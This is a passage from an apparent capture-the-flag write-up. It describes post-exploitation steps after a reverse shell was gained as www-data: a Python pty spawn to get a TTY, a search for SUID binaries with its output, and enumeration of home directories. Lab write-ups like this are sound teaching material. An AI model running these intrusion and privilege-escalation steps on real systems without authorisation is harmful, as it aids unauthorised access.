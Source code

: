 Now I got the reverse shell with the user privilege of www-data.

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I might have the reverse shell, but not a proper TTY yet. So I need to run this command from the reverse shell.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Exploring the Shell

At first, I tried connecting to MySQL locally since I couldn't connect to MySQL from remote host. But I didn't find anything useful there.

I tried to find exploitable SUID files, but there doesn't seem to be any that's exploitable.

```
$ find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/ping6
/bin/umount
/bin/mount
/bin/su
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/at
/usr/bin/mtr
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

There's a user with the name togie in the system.

```
$ ls -alh /home
total 12K
drwxr-xr-x  3 root  root  4.0K Aug 14 20:00 .
drwxr-xr-x 22 root  root  4.0K Aug 21 20:10 ..
drwxr-xr-x  3 togie togie 4.0K Aug 15 23:05 togie
```
